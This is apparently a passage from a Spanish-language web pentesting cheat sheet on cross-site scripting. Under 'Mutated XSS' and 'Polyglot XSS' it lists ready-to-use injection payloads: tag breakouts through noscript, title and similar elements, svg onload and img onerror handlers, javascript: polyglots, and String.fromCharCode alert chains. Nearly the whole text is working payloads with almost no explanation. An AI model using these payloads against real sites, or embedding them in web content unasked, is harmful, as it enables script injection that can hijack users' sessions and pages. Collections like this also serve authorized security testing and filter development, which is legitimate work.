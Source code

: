## Mutated XSS

Úselo cuando la entrada aterrice dentro o entre la apertura/cierre de las siguientes etiquetas:

```javascript
<title>, <style>, <script>, <textarea>, <noscript>, <pre>, <xmp>, <iframe>, <tag>
```

```
</tag><svg onload=alert(1)>

"></tag><svg onload=alert(1)>

</noscript><svg onload=alert(1)>

"></noscript><svg onload=alert(1)>
	
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

## Polyglot XSS

Polyglot XSS

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
```
">><marquee><img src=x onerror=confirm(1)></marquee>" >
```
```
</plaintext\></|\><plaintext/onmouseover=prompt(1) >
```
```
<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script>
```
```
<script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```
```
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```
```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'>
```
```
<SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```
```
“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```
```
'">><marquee><img src=x onerror=confirm(1)></marquee>">
```
```
</plaintext\></|\><plaintext/onmouseover=prompt(1)>
```
```
<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script>
```